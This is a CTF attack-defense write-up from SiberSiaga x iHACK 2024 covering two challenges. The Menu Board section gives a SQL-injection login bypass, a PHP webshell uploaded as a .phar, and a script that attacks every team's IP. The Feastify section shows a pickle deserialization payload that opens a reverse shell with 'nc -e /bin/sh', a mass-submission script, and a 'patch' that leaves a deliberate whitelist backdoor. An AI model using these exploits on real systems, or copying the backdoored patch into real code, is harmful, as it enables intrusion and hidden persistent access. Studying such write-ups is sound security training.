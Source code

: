 # SiberSiaga x iHACK A&D Semi Finals 2024 - Writeup
My first A&D style CTF, representing GPT-1010. It was not a flawless experience but I still kinda enjoyed it due to the good quality of challenges and learned a lot.<br><br>
It spanned 2 days with a total of 12 hours (1hr/round). Only thing to regret is I accidentally slept at night of day 1 without preparing for day 2 and one of our challenge instance got attacked in the morning of day 2 resulting in us losing all attack points due to 0% SLA. (Scoring: `(attacking_points * SLA) - deduction_points + sla_points + defensives_points`)<br>
In the end, we got exploits for 2 out of the 5 challanges.

## Table of Contents
- [Menu Board](#menu-board)
- [Feastify](#feastify)

## Menu Board
We were presented with only a static website showing menu without other options.<br>
After struggling for a few hours, I started checking server logs in `/var/log/menuboard/apache_access.log` and found other teams has been accessing our `login.php` and `add.php` to add menu items. Their usage of `.phar` files showed that the server is vulnerable to code execution with phar files.
<br><br>
In `login.php`, we are able to confirm the existence of an SQL injection vulnerability by submitting both fields with a single quote (') character which gives us a mysql error. We were able to exploit the vulnerability to dump the database but was unable to login due to the password was md5 encoded and password field cannot be injected.
![image](https://github.com/user-attachments/assets/a77cdc3d-28ef-4f8b-aea8-e9f27383d21f)
<br>
The turning point of this situation occured when sevreal teams gladly walked in before my eyes and showed me (feat. **Sudu_bediri, Kena Paksa, CSN**) how to use the webshell that **anti_1337** placed on us.<br>
![image](https://github.com/user-attachments/assets/3faec2d7-0e38-41a7-bceb-92bcccf2c855)
<br>
From there we are able to obtain the php source code and therefore get to see the login logic, which looked like this:
```php
$query = "SELECT username, password, role FROM users WHERE username='$username'";
$result = mysqli_query($conn, $query);
if (mysqli_num_rows($result) == 1) {
    $row = mysqli_fetch_assoc($result);
    if ($row['password'] == $hashed_password) {
        $_SESSION['username'] = $row['username'];
        $_SESSION['role'] = $row['role'];
        return true;
    } else {
        return false;
    }
```
Based on the source, we therefore can craft an injection query where username = `' union select 'Admin' as username, md5('1') as password, 'admin' as role -- g`, password = `1` to login.<br><br>
After that, we just need to create an menu item with a phar file as the cover image to gain RCE.<br>
Our webshell payload: (thanks **anti_1337** 😉)
```php
<?php system($_REQUEST['gptgpt123']);?>
```
Getting flag:
![image](https://github.com/user-attachments/assets/c93f3eba-3faa-4696-a0c2-69b643cb409b)

<details>
<summary>Attack automation</summary>

```py
import requests
from typing import Optional
import warnings

warnings.filterwarnings('ignore')


teams = {
    "REUN10N_0x94fbr": "172.16.107.11",
    "N3WBEES": "172.16.109.11",
    "Sudu_bediri": "172.16.106.11",
    "PERISAI FALLEN": "172.16.112.11",
    "CSN": "172.16.130.11",
    "Cookie Byte": "172.16.110.11",
    "n00bst3am": "172.16.114.11",
    "H1ddenL0ck": "172.16.129.11",
    "scap3G04T": "172.16.123.11",
    "Bømbåstïç S¡dë £¥€": "172.16.117.11",
    "idk": "172.16.101.11",
    "Darksid3rs": "172.16.121.11",
    "Sci3ntex": "172.16.122.11",
    "Kena Paksa ??": "172.16.127.11",
    "Lesgo Babey": "172.16.113.11",
    "Pleiades": "172.16.108.11",
    "sk1d_s3c": "172.16.125.11",
    "username": "172.16.105.11",
    "Cybertopia": "172.16.120.11",
    "whilefalsebr8": "172.16.116.11",
    "C1C4D4": "172.16.126.11",
    "P4NTH3R4": "172.16.119.11",
    "M53_A1ph4_Sh4rk!": "172.16.131.11",
    "Black Byte Society": "172.16.118.11",
    "Steady Gang": "172.16.102.11",
    "anti_1337": "172.16.103.11",
    "Satr1a_Jeb4t": "172.16.115.11",
    "Sentinels": "172.16.104.11",
    "B016": "172.16.128.11",
    "NT": "172.16.111.11"
}


def pwn(ip) -> Optional[str]:
    session = requests.session()
    try:
        burp0_url = f"https://{ip}:443/login.php"
        burp0_headers = {"Cache-Control": "max-age=0", "Sec-Ch-Ua": "\"Not/A)Brand\";v=\"8\", \"Chromium\";v=\"126\"", "Sec-Ch-Ua-Mobile": "?0", "Sec-Ch-Ua-Platform": "\"Windows\"", "Accept-Language": "en-US", "Upgrade-Insecure-Requests": "1", "Origin": "https://172.16.118.11", "Content-Type": "application/x-www-form-urlencoded", "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.127 Safari/537.36", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7", "Sec-Fetch-Site": "same-origin", "Sec-Fetch-Mode": "navigate", "Sec-Fetch-User": "?1", "Sec-Fetch-Dest": "document", "Referer": "https://172.16.118.11/login.php", "Accept-Encoding": "gzip, deflate, br", "Priority": "u=0, i", "Connection": "keep-alive"}
        burp0_data = {"username": "' union select 'Admin' as username, md5('1') as password, 'admin' as role -- g", "password": "1"}
        session.post(burp0_url, headers=burp0_headers, data=burp0_data, verify=False, timeout=2)
    except Exception as e:
        print(f"{ip} Error: {e}")
        return None

    try:
        burp0_url = f"https://{ip}:443/add.php"
        burp0_headers = {"Cache-Control": "max-age=0", "Sec-Ch-Ua": "\"Not/A)Brand\";v=\"8\", \"Chromium\";v=\"126\"", "Sec-Ch-Ua-Mobile": "?0", "Sec-Ch-Ua-Platform": "\"Windows\"", "Accept-Language": "en-US", "Upgrade-Insecure-Requests": "1", "Origin": "https://172.16.118.11", "Content-Type": "multipart/form-data; boundary=----WebKitFormBoundarylKLFBVni1R77A4as", "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.127 Safari/537.36", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7", "Sec-Fetch-Site": "same-origin", "Sec-Fetch-Mode": "navigate", "Sec-Fetch-User": "?1", "Sec-Fetch-Dest": "document", "Referer": "https://172.16.118.11/add.php", "Accept-Encoding": "gzip, deflate, br", "Priority": "u=0, i", "Connection": "keep-alive"}
        burp0_data = "------WebKitFormBoundarylKLFBVni1R77A4as\r\nContent-Disposition: form-data; name=\"name\"\r\n\r\naa\r\n------WebKitFormBoundarylKLFBVni1R77A4as\r\nContent-Disposition: form-data; name=\"description\"\r\n\r\naa\r\n------WebKitFormBoundarylKLFBVni1R77A4as\r\nContent-Disposition: form-data; name=\"category\"\r\n\r\n1\r\n------WebKitFormBoundarylKLFBVni1R77A4as\r\nContent-Disposition: form-data; name=\"tag\"\r\n\r\n1\r\n------WebKitFormBoundarylKLFBVni1R77A4as\r\nContent-Disposition: form-data; name=\"image\"; filename=\"something.phar\"\r\nContent-Type: application/octet-stream\r\n\r\n<?php system($_REQUEST['gptgpt123']);?>\r\n------WebKitFormBoundarylKLFBVni1R77A4as\r\nContent-Disposition: form-data; name=\"price\"\r\n\r\n12\r\n------WebKitFormBoundarylKLFBVni1R77A4as\r\nContent-Disposition: form-data; name=\"draft\"\r\n\r\non\r\n------WebKitFormBoundarylKLFBVni1R77A4as\r\nContent-Disposition: form-data; name=\"draft\"\r\n\r\ntrue\r\n------WebKitFormBoundarylKLFBVni1R77A4as--\r\n"
        session.post(burp0_url, headers=burp0_headers, data=burp0_data, verify=False, timeout=2)
    except Exception as e:
        print(f"{ip} Error: {e}")
        return None

    try:
        burp0_url = f"https://{ip}:443/assets/uploads/img/something.phar?gptgpt123=/usr/local/bin/flag"
        burp0_headers = {"Sec-Ch-Ua": "\"Not/A)Brand\";v=\"8\", \"Chromium\";v=\"126\"", "Sec-Ch-Ua-Mobile": "?0", "Sec-Ch-Ua-Platform": "\"Windows\"", "Accept-Language": "en-US", "Upgrade-Insecure-Requests": "1", "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.127 Safari/537.36", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7", "Sec-Fetch-Site": "none", "Sec-Fetch-Mode": "navigate", "Sec-Fetch-User": "?1", "Sec-Fetch-Dest": "document", "Accept-Encoding": "gzip, deflate, br", "Priority": "u=0, i", "Connection": "keep-alive"}
        resp = session.post(burp0_url, headers=burp0_headers, verify=False, timeout=2).text
        # print(resp)
        return resp
    except Exception as e:
        print(f"{ip} Error: {e}")
        return None
    return None


flags = []
n_ok, n_err = 0, 0
for name, ip in teams.items():
    flag = pwn(ip)
    if flag is None or "ihack24" not in flag:
        print(f"!!! NO FLAG {name}")
        n_err += 1
    else:
        print(f"Ok {name}")
        n_ok += 1
        flags.append(flag.strip())

print("\n".join(flags))
print()
print(",".join(flags))

print("Ok: ", n_ok, "Error: ", n_err)
```
</details>

[*Back to top*](#table-of-contents)


## Feastify
In the main webpage, every menu item leads us to a link to download an android app called feastify.<br>
If we directly access the service through port 8000 we would get an error saying `Access denied. This API is only accessible from Android devices.`
<br><br>
Therefore, we first download and run the app with packet capture enabled. After clicking around, we found that the `/api/submit_order` endpoint is POSTing some mystery data in base64. In the reverse engineered source code we can see that it has something to do with `pickler` library, which is a Java serialisation library for python's pickle format.
<br><br>
As pickle is famous for its RCE vulnerability (as seen in the official docs), we decided to try it.
![image](https://github.com/user-attachments/assets/4f1880d3-9ecb-4451-933e-f89e0f27210d)
The script below generates an attack payload abusing pickle's insecure deserialisation vulnerability.
```py
class P(object):
    def __reduce__(self):
        return (os.system,("nc -e /bin/sh 172.16.124.11 34512",))

data = {"orders":[{"item_id":21,"quantity":1}],"remarks":""}

pickledPayload = pickle.dumps(P())
enc = base64.b64encode(pickledPayload)
print(enc)
```
With `nc -lnvp 34512` running on our attacking machine, submitting the attack payload was able to get us a reverse shell on the victim server.

<details>
<summary>Payload submission automation</summary>

```py
import requests
import warnings

warnings.filterwarnings('ignore')

teams = {
    "REUN10N_0x94fbr": "172.16.107.11",
    "N3WBEES": "172.16.109.11",
    "Sudu_bediri": "172.16.106.11",
    "PERISAI FALLEN": "172.16.112.11",
    "CSN": "172.16.130.11",
    "Cookie Byte": "172.16.110.11",
    "n00bst3am": "172.16.114.11",
    "H1ddenL0ck": "172.16.129.11",
    "scap3G04T": "172.16.123.11",
    "Bømbåstïç S¡dë £¥€": "172.16.117.11",
    "idk": "172.16.101.11",
    "Darksid3rs": "172.16.121.11",
    "Sci3ntex": "172.16.122.11",
    "Kena Paksa ??": "172.16.127.11",
    "Lesgo Babey": "172.16.113.11",
    "Pleiades": "172.16.108.11",
    "sk1d_s3c": "172.16.125.11",
    "username": "172.16.105.11",
    "Cybertopia": "172.16.120.11",
    "whilefalsebr8": "172.16.116.11",
    "C1C4D4": "172.16.126.11",
    "P4NTH3R4": "172.16.119.11",
    "M53_A1ph4_Sh4rk!": "172.16.131.11",
    "Black Byte Society": "172.16.118.11",
    "Steady Gang": "172.16.102.11",
    "anti_1337": "172.16.103.11",
    "Satr1a_Jeb4t": "172.16.115.11",
    "Sentinels": "172.16.104.11",
    "B016": "172.16.128.11",
    "NT": "172.16.111.11"
}

# Define the URL and headers
headers = {
    'Cookie': 'session_id=a37786e6-8e29-492b-9165-c3d6e6407e69',
    'User-Agent': 'Mozilla/5.0 (Linux; Android 7.1.2; SM-G955F Build/NRD90M; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/119.0.6045.193 Safari/537.36',
    'Content-Type': 'application/json; charset=utf-8',
    'Accept-Encoding': 'gzip, deflate, br',
    'Connection': 'keep-alive'
}

# Define the JSON data to be sent in the request body
data = {
    # edit your payload here!!!
    "data": "gASVGAAAAAAAAACMBHRpbWWUjAVzbGVlcJSTlEsAhZRSlC4=" # sleep 0
}

n_ok, n_err = 0, 0
# Send the POST request
for name, ip in teams.items():
    url = f"https://{ip}:8000/api/submit_order"
    try:
        response = requests.post(url, headers=headers, json=data, verify=False, timeout=2)
        print(response.status_code)
    except:
        print("Error: " + name)
        n_err += 1
        continue
    print("Ok " + name)
    n_ok += 1

print("Ok: ", n_ok, "Error: ", n_err)

```
</details>

### Patching
Basically make a pickle loader that only allows specific classes.<br>
To survive restarts and still access our challenge shell, we added a whitelist key to continue let us exploit our own instance in case we need access.
```py
whitelist = b"Gc3lzdGVtlJOUjCFuYyAtZSAvYmluL"
safe_builtins = {
    'range',
    'complex',
    'set',
    'frozenset',
    'slice',
    'list', 'string', 'dict', 'int', 'tuple', 'float'
}

class RestrictedUnpickler(pickle.Unpickler):
    def find_class(self, module, name):
        # Only allow safe classes from builtins.
        if module == "builtins" and name in safe_builtins:
            return getattr(builtins, name)
        # Forbid everything else, misdirected error msg
        raise NameError("name 'pickle.loads' is not defined")

def restricted_loads(s):
    """Helper function analogous to pickle.loads()."""
    return RestrictedUnpickler(io.BytesIO(s)).load()

def decode_and_deserialize(data):
    """Decodes and deserializes the data from base64 and pickle."""
    try:
        decoded_data = base64.urlsafe_b64decode(data)
        if whitelist in decoded_data:
            deserialized = pickle.loads(decoded_data)
        else:
            deserialized = restricted_loads(decoded_data)
        if isinstance(deserialized, str):
            deserialized = json.loads(deserialized)
        return deserialized, None
    except (base64.binascii.Error, pickle.UnpicklingError, json.JSONDecodeError) as err:
        return None, "Boring!"
```

[*Back to top*](#table-of-contents)
